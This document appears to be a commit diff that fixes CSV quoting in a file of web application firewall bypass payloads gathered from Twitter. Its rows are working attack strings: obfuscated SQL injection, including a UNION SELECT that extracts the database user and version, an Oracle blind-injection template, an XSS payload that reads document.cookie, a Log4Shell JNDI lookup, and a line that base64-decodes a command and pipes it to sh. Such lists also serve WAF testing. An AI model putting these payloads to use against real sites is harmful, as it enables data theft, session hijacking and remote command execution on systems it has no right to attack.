

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
fix delimitres

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
@@ -371,3 +371,3 @@ https://waf-bypass.com/,"${jndi${nagli:-:}ldap:${::-/}/${hostName}.anything.inte
 https://waf-bypass.com/,%27/**/%256fR/**/50%2521%253D22%253B%2523,sqli
-https://waf-bypass.com/,0%20/*!union*/%20/*!select*/%201,2,3,4,user(),6,7,version(),9,10,11,sqli
+https://waf-bypass.com/,"0%20/*!union*/%20/*!select*/%201,2,3,4,user(),6,7,version(),9,10,11",sqli
 https://waf-bypass.com/,"<svg onpointerenter=jQuery.globalEval(""al""+""ert(documen""+""t.cooki""+""e)"");>",xss
@@ -401,3 +401,3 @@ https://waf-bypass.com/,1%27/** /%256FR/** /50%2521%253D22%253B%2523,sqli
 https://waf-bypass.com/,%2522%252B%254F%2552%252B%2531%2521%253D%2537%2523,sqli
-https://waf-bypass.com/,1 or REGEXP_LIKE(DBMS_XMLGEN.GETXMLTYPE(utl_raw.cast_to_varchar2(HEXTORAW(‘{hex_query}’))),’>{brute_force}(.+)?@<‘,’i’),sqli
+https://waf-bypass.com/,"1 or REGEXP_LIKE(DBMS_XMLGEN.GETXMLTYPE(utl_raw.cast_to_varchar2(HEXTORAW(‘{hex_query}’))),’>{brute_force}(.+)?@<‘,’i’)",sqli
 https://waf-bypass.com/,printf dW5hbWUgLWE= | base64 -d | sh,rce
```
